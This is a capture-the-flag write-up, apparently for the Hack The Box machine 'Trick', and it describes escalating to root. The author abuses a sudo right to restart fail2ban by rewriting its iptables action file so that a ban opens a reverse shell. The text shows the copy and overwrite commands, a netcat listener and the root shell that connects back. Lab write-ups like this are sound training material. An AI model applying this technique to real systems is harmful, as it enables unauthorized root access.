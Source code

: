 ```bash

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
michael@trick:~$
```

I have access to shell now and cat'd out the user flag. Running Sudo -l we can see that Michael can run this fail2ban restart as root, so we'll start researching Fail2Ban and determine what can be done here:
```bash
michael@trick:~/Downloads$ sudo -l
Matching Defaults entries for michael on trick:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User michael may run the following commands on trick:
    (root) NOPASSWD: /etc/init.d/fail2ban restart
```

# Privilege Escalation

There weren't many articles, but [this one on medium](https://youssef-ichioui.medium.com/abusing-fail2ban-misconfiguration-to-escalate-privileges-on-linux-826ad0cdafb7) seems to explain it best.
I copied over the iptables-multiport.conf file to Michaels' user directory (couldn't be edited in place):
```bash
cp /etc/fail2ban/action.d/iptables-multiport.conf ./
```

Edited the file to initiate a reverse shell under the value for <b>ACTIONBAN</b>:

![7](Pasted image 20221027181402.png)

Moved the file back over to /etc/fail2ban and overwrote what was there:
```bash
mv iptables-multiport.conf /etc/fail2ban/action.d/iptables-multiport.conf
```

I DID NOT RESTART FAIL2BAN

I cat'd out the file to make sure the code was still there, started up a listener, attempted to SSH 3 times (failing), the listener picked up, I moved to the /root folder and cat'd out root.txt. I had to go through the process a few times (copying the file, manipulating the file, moving it over) because after a brief few moments the file would revert back to its original form (especially when restarting the service!). Ultimately, I was able to grab the flag.

```bash
┌──(ghohst㉿kali)-[~]
└─$ nc -nvlp 4444
listening on [any] 4444 ...
connect to [10.10.14.8] from (UNKNOWN) [10.10.11.166] 60458
ls
bin
boot
dev
etc
home
initrd.img
initrd.img.old
lib
lib32
lib64
libx32
lost+found
media
mnt
```